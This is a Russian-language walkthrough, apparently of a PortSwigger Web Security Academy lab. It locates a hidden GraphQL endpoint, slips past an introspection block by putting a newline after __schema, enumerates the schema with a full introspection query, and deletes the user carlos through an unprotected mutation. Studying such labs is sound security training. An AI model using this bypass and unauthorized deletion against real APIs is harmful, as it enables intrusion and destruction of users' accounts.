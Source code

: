 Перейдем на уязвимый ресурс и попробуем залогиниться под случайным пользователем `user:passuser`

Далее перейдем в `Proxy` -> `HTTP history` и найдем данный запрос и отправим его в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/3.%20Finding%20a%20hidden%20GraphQL%20endpoint/pics%20for%20walkthrough/1.png)

Далее, проверим common `endpoint`'ы, которые предлагают нам методологи бурповской академии. Я решил проверить ручками, и не запихивать в `intruder`, так как их тут мало
```
/graphql
/api
/api/graphql
/graphql/api
/graphql/graphql
```

И единственный, отличающийся от всех иных - `/api`
```
POST /api
```
На что выдает - `"Method Not Allowed"`
и в ответе видим, что доступны только `GET` запросы
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/3.%20Finding%20a%20hidden%20GraphQL%20endpoint/pics%20for%20walkthrough/2.png)

окей, пробуем повторить тот же запрос, только с методом `GET`
```
Get /api
```

и получим, что `"Query not present"`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/3.%20Finding%20a%20hidden%20GraphQL%20endpoint/pics%20for%20walkthrough/3.png)


Добавим заголовок из ответа `Content-Type: application/json` в тело запроса, а так же заменим параметры с CSRF токенами и логином паролей на
```
{
        "query": "query{__schema{queryType{name}}}"
}
```


и получим 200 респонс со следующим ответом
```
{
  "errors": [
    {
      "locations": [],
      "message": "GraphQL introspection is not allowed, but the query contained __schema or __type"
    }
  ]
}
```

Погуглим `introspection GraphQL`
и зайдем на официальную доку -` https://graphql.org/learn/introspection/`

в которой найдем следующие слова 
`We designed the type system, so we know what types are available, but if we didn’t, we can ask GraphQL, by querying the __schema field, always available on the root type of a Query. Let’s do so now, and ask what types are available`.

И возьмем данный запрос и применим у себя 
```
{
    __schema 
{
        types {
            name
        }
    }
}
```
`Важно`! После `__schema` и `{` должен быть перенос строки!

и получим бьольшой ответ какие методы в graphQL существуют и каким


Далее погуглим `GrapgQL injection` и найдем великолепные ссылки на `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection`
и нам будет необходим пункт `Enumerate Database Schema via Introspection` где найдем пэйлоад. Его то мы и скопипастим в качестве запроса

```
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes {
    ...TypeRef
  }
}
fragment InputValue on __InputValue {
  name
  description
  type {
    ...TypeRef
  }
  defaultValue
}
fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}

query IntrospectionQuery 
{
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args {
        ...InputValue
      }
    }
  }
}
```

`Важно`! После `__schema` и `{` должен быть перенос строки!

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/3.%20Finding%20a%20hidden%20GraphQL%20endpoint/pics%20for%20walkthrough/4.png)

И в ответ получим огромный `json`, который легче сохранить как `json` и потом открыть в расширении `InQL` (да, URL все равно надо)
```
https://0a0c00be03f94530816e02eb00af006c.web-security-academy.net/api
```

и увидим в `mutations` следующий запрос 
```
mutation {
    deleteOrganizationUser(input: DeleteOrganizationUserInput) {
        user {
            id
            username
        }
    }
}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/3.%20Finding%20a%20hidden%20GraphQL%20endpoint/pics%20for%20walkthrough/5.png)


А в `queries`

```
query {
    getUser(id: Int!) {
        id
        username
    }
}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/3.%20Finding%20a%20hidden%20GraphQL%20endpoint/pics%20for%20walkthrough/6.png)

Для начала, нам необходимо найти пользователя `carlos`

Методом нехитрого и довольно быстрого перебора находим, что у него `id = 3`
```
query {
    getUser(id: 3) {
        id
        username
    }
}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/3.%20Finding%20a%20hidden%20GraphQL%20endpoint/pics%20for%20walkthrough/7.png)
Далее удалим пользователя с `id :3`
```
mutation {
    deleteOrganizationUser(input: { id: 3 }) {
        user {
            id
        }
    }
}
```
и получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/21.%20GraphQL%20API%20vulnerabilities/3.%20Finding%20a%20hidden%20GraphQL%20endpoint/pics%20for%20walkthrough/8.png)
